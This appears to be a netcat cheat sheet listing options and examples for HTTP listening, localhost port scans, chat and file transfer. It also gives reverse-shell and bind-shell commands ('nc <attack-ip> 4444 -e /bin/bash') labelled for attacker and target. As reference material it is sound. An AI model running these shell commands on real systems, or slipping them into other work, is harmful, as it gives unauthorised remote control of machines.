 # nc(1)

netcat is a utility for reading from and writing to network connections using TCP or UDP

## Options

    -x                # hexdump incoming and outgoing traffic
    -l                # listen mode, for inbound connects
    -z                # zero-I/O mode (used for scanning)
    -p                # local port number
    -n                # skip DNS lookups
    -4                # use IPv4 only
    -6                # use IPv6
    -u                # use UDP instead of TCP

## Examples

    nc -l -p 80                                                             # listen on port 80 and print request: `curl localhost`
    nc -lvp 80
    printf 'HTTP/1.1 200 OK' | nc -l -c -p 80                               # listen on port 80, print request and return HTTP response: `open localhost`
    printf 'HTTP/1.1 200 OK\n\n%s' "$(cat index.html)" | nc -lcp 80
    printf 'GET / HTTP/1.0\n\n' | nc localhost 80                           # do HTTP request to localhost (same as `curl localhost`)

## Netcat Port Scan

    nc -v -z localhost 1-1023                        # scan localhost for open lower ports (0-1024)
    nc -v -z -n 127.0.0.1 1-1023                     # scan 127.0.0.1 for open lower ports (0-1024)

## Netcat Reverse Shell

    attack > nc -lp 4444
    target > nc \<attack-ip> 4444 -e /bin/bash
    attack > env                                     # print env of "target"

## Netcat Bind Shell

    target > nc -lp 4444 -e /bin/bash
    attack > nc \<target-ip> 4444
    attack > env                                     # print env of "target"

## Netcat Chat Shell

    chat-1 > nc -lp 4444
    chat-2 > nc \<chat-1-ip> 4444

## Netcat File Transfer

    target > nc -lp 4444 > file.txt
    source > nc \<target-ip> 4444 < file.txt          # finish with `CTRL-C`
